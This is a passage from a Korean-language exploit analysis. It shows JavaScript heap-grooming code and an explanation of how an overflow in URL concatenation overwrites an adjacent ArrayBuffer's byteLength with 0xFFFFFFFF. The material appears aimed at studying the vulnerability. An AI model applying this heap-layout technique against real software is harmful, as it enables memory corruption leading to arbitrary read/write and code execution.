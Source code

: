 ```js

// 2. string 사이에 relativeURL을 저장할 공간 지정
for (var i = 0x11; i < arrB.length; i += 10) {
  arrB[i] = null;
  arrB[i] = undefined;
}

// 3. 연결된 URL을 저장할 LFH heap 공간 생성
var arrA = new Array(0x130);
for (var i = 0; i < arrA.length; i++) {
  arrA[i] = createArrayBuffer(strConUrlSize);
}

// 4. LFH에 ArrayBuffer로 할당된 heap 사이에 연결된 URL이 들어갈 공간 지정
for (var i = 0x11; i < arrA.length; i += 10) {
  arrA[i] = null;
  arrA[i] = undefined;
}

// Garbage Collection 진행 (URL이 들어갈 공간을 진짜로 비워주기 위해)
gc();
```

- Preparing Heap Layout 단계는 다음의 과정을 거쳐 Heap Layout을 준비한다.
    1. byteLength를 덮어쓸 문자열이 저장될 LFH heap 공간을 생성한다.
        - relative URL 크기 (0x600 byte) 만큼의 길이를 가진 문자열을 여러 번 할당해 LFH를 활성화한다.
            - `"%u????"`는 뒤의 2 byte (`????`)가 Unicode로 encoding된다.
            - `sprayStr1.substr(0, (strRelUrlSize / 2) - 1).toUpperCase();`는 Null Terminator 2byte 제외 `(strRelUrlSize/2)-1`개의 Unicode 문자를 나타낸다.
            - Null Terminator 2byte 제외 `(strRelUrlSize/2)-1`개의 Unicode 문자는 `strRelUrlSize-2` byte 크기로, Null Terminator 2 byte 합치면 relative URL의 길이가 된다.
    2. string 사이에 relativeURL을 저장할 공간을 지정한다.
    3. 연결된 URL을 저장할 LFH heap 공간을 생성한다.
        1. 연결된 URL 크기 (0x800 byte) 만큼 여러 번 ArrayBuffer를 할당해 LFH를 활성화한다.
        
        ---
        
        1. 각 URL 및 heap header 크기는 다음과 같다.
            1. relative URL : null 문자 포함 0x600 byte
            2. base URL : null 문자 포함 0x200 byte
            3. ArrayBuffer header : 0x10 byte
            4. Heap metadata : 0x08 byte
        - relative URL과 base URL은 다음과 같이 저장된다.
            - relative URL은 문자열 자체로 strings에 들어간다.
            - base URL은 ArrayBuffer로 선언한 영역에 복사되어 들어간다.
        - URL은 다음의 과정을 거쳐 연결된다.
            1. baseURL이 연결된 URL을 위한 heap 영역에 복사된다.
            2. baseURL 뒤에 relativeURl이 복사된다.
            3. Root Cause로 인해 relativeURL에 연결된 string이 relative URL 뒤에 복사된다.
                - string은 다음 ArrayBuffer의 byteLength를 0xFFFFFFFF로 덮어쓴다.
    4. LFH에 ArrayBuffer로 할당된 heap 사이에 연결된 URL이 들어갈 공간을 지정한다.
    